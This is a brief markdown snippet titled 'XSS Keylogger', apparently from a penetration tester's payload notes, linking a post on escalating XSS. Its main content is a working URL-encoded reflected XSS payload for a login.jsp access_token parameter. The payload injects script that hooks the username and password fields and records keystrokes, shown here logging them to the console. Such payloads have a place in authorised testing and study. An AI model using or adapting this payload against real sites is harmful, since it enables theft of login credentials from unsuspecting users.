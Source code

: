 # XSS Keylogger
- [Escalating XSS](https://www.linkedin.com/posts/florian-ethical-hacker_escalating-xss-during-a-recent-pentest-activity-7355492287549779968-Ui20?utm_source=share&utm_medium=member_android&rcm=ACoAACnP0IABZSB2JmWSbESElQ3AjiJztsp0gN8)

```js
/login.jsp?&access_token=adasdas<@urlencode>');window.addEventListener('DOMContentLoaded', () => { ['user_name', 'user_password'].forEach(n => { const input = document.querySelector(`input[name=${n}]`); if (input) { input.addEventListener('input', e => console.log(n + ': ' + e.target.value)); } }); });</script></@urlencode>
```